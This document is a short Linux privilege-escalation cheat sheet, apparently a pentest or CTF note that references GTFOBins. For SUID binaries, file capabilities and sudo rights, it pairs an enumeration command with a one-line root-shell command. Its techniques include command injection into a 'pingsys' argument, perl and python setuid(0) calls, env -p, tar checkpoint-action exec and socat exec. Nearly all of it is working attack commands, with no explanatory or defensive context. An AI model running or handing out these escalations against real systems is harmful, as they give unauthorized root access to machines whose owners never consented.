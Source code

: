 # PINGSYS
```
find / -perm /4000 -type f 2>/dev/null           
```   
If:
/usr/bin/pingsys
```
/usr/bin/pingsys '127.0.0.1;/bin/sh'
```
# PERL
https://gtfobins.github.io/gtfobins/perl/
```    
getcap -r / 2> /dev/null
```
If:
/usr/bin/perl = cap_setuid+ep
```
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
# PYTHON
https://gtfobins.github.io/gtfobins/python/#suid
```
find / -user root -perm /4000
```
If:
/usr/bin/python
```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
# ENV
https://gtfobins.github.io/gtfobins/env/#suid
```
find / -user root -perm /4000
```
If:
/usr/bin/env
```
/usr/bin/env /bin/sh -p
```
# TAR
https://gtfobins.github.io/gtfobins/tar/
```
sudo -l
```
If:
User ??? may run the following commands on ???: 

   (root) /bin/tar
```    
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

# SOCAT
https://gtfobins.github.io/gtfobins/socat/#sudo
```
sudo -l
```
If:
/usr/bin/socat

```    
sudo socat stdin exec:/bin/sh
```

